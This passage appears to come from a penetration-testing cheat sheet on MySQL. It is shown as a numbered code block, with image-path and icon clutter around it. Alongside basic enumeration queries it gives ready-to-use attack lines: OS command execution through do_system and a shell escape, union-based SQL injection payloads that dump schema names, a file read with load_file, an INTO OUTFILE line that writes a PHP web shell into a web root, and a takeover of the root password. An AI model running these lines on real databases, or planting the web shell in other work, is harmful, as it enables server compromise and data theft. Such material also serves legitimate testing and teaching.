 13CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY)
14CONVERT(from_base64("aG9sYWFhCg=="), BINARY)

#

**Basic & interesting MySQL commands**[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1944'%3e%3cg data-evernote-id='1945' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1946' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1947' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/pentesting/pentesting-mysql#basic-and-interesting-mysql-commands)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1956'%3e%3cg data-evernote-id='1957' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1958' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1959' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

15show databases;
16use <database>;
17show tables;
18describe <table_name>;
19​

20select grantee, table_schema, privilege_type FROM schema_privileges;  #Exact privileges

21select user,file_priv from mysql.user where user='root';  #File privileges
22select version();  #version
23select @@version();  #version
24select user();  #User
25select database();  #database name
26​
27#Try to execute code
28select do_system('id');
29\! sh
30​
31#Basic MySQLi

32Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables

33Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

34​
35#Read & Write
36select load_file('/var/lib/mysql-files/key.txt');  #Read file

37select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

38​
39#Try to change MySQL root password
40UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';

41UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';

42FLUSH PRIVILEGES;
43quit;

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2182'%3e%3cg data-evernote-id='2183' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2184' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2185' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy
